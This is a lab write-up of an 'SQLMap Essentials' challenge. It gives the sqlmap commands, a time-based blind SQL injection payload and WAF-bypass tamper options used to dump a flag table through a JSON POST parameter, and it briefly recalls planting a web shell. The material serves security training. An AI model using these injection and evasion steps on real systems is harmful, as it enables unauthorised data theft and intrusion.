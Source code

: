 ## SQLMap Essentials - Skills Assessment Write-up

Before diving into the solution for this final challenge in the **SQLMap Essentials** module, I want to briefly mention the previous module **SQL Injection Fundamentals** (medium level). Compared to this one (labeled as *easy*), the previous assessment was actually more straightforward.


### Quick overview of the "Skills Assessment - SQL Injection Fundamentals"

-   Used **Union-based SQLi** to determine the number of columns in the table
-   Checked local OS file write permissions
-   Uploaded a **web shell** into the default web directory (reference: [SecLists Default Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
-   Searched the system for files named **flag.txt** and successfully retrieved the flag


### Current Task - SQLMap Essentials

We were provided with a URL to identify and exploit via SQL injection.

First attempt with a simple SQLMap command:

``` bash
sqlmap -u 'http://94.237.61.242:41666/' --batch --dump
```

Resulted in the following error:

    [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--crawl=2'

Following the suggestion:

``` bash
sqlmap -u 'http://94.237.61.242:41666/' --batch --dump --crawl=3
```

But this time:

    [WARNING] no usable links found (with GET parameters)

#### Step 1: Inspecting requests with Burp Suite

Since no exploitable GET parameters were present, I turned to **Burp Suite** to analyze the traffic. While browsing the application, I noticed a **POST request** with JSON data in the body:

``` json
{"id":1}
```

![](screenshots/1.png)

![](screenshots/2.png)

#### Step 2: Running SQLMap with POST JSON data

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql
```

Error message received:

    [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

#### Step 3: Adding `--random-agent`

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent
```

SQLMap successfully detected an injection point, but couldn't extract data directly:

```
    sqlmap identified the following injection point(s) with a total of 3088 HTTP(s) requests:
    ---
    Parameter: JSON id ((custom) POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"id":"1 AND (SELECT 2950 FROM (SELECT(SLEEP(5)))wBmv)"}
    ---
```

However, retrieval attempts failed:

    [ERROR] unable to retrieve the number of databases

#### Step 4: Using `--no-cast` and bypassing WAF

Tried with `--no-cast`:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --no-cast
```

No success. Then attempted to bypass potential WAF filtering with `--tamper`:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent --no-cast --tamper=between
```

This time SQLMap successfully retrieved database information:

    [INFO] fetching tables for database: 'production'

#### Step 5: Extracting the final flag

The challenge required retrieving data from the `final_flag` table. I searched and dumped its contents:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent --no-cast --tamper=between --search -T "final_flag"
```

SQLMap successfully extracted the table and its contents:

```
    Database: production
    [1 table]
    +------------+
    | final_flag |
    +------------+
```

![](screenshots/3.png)


## Conclusion

This challenge highlighted the importance of carefully analyzing application requests beyond simple GET parameters. Key takeaways:

-	Burp Suite inspection revealed a hidden injection point in POST JSON data
-	SQLMap requires proper fine-tuning (`--random-agent`, `--no-cast`, `--tamper`) to bypass protections
-	Even "easy" challenges may require persistence and multiple bypass attempts

